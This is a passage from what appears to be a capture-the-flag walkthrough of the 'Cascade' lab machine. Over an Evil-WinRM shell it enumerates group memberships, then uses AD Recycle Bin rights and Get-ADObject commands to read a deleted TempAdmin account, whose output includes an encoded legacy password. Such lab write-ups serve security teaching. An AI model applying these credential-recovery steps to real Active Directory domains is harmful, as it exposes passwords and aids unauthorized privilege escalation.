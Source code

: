 Performing general user enumeration we see the following groups.

```bash
*Evil-WinRM* PS C:\Users\arksvc\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                            Attributes
=========================================== ================ ============================================== ===============================================================
Everyone                                    Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
CASCADE\Data Share                          Alias            S-1-5-21-3332504370-1206983947-1165150453-1138 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\IT                                  Alias            S-1-5-21-3332504370-1206983947-1165150453-1113 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\AD Recycle Bin                      Alias            S-1-5-21-3332504370-1206983947-1165150453-1119 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\Remote Management Users             Alias            S-1-5-21-3332504370-1206983947-1165150453-1126 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448
*Evil-WinRM* PS C:\Users\arksvc\Documents>
```


The interesting of these is `CASCADE\AD Recycle Bin` which allows us to view deleted Active Directory Objects. The command to use is:
```powershell
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
```

Running the command via `WinRM` provides a lot of output. As previously mentioned a user was created called `TempAdmin`, let's just print their details:
```powershell
Get-ADObject -Filter 'isDeleted -eq $true -and sAMAccountName -eq "TempAdmin"' -IncludeDeletedObjects -Properties
*
```
Output:
```bash
accountExpires                  : 9223372036854775807
badPasswordTime                 : 0
badPwdCount                     : 0
CanonicalName                   : cascade.local/Deleted Objects/TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
CN                              : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
codePage                        : 0
countryCode                     : 0
Created                         : 1/27/2020 3:23:08 AM
createTimeStamp                 : 1/27/2020 3:23:08 AM
Deleted                         : True
```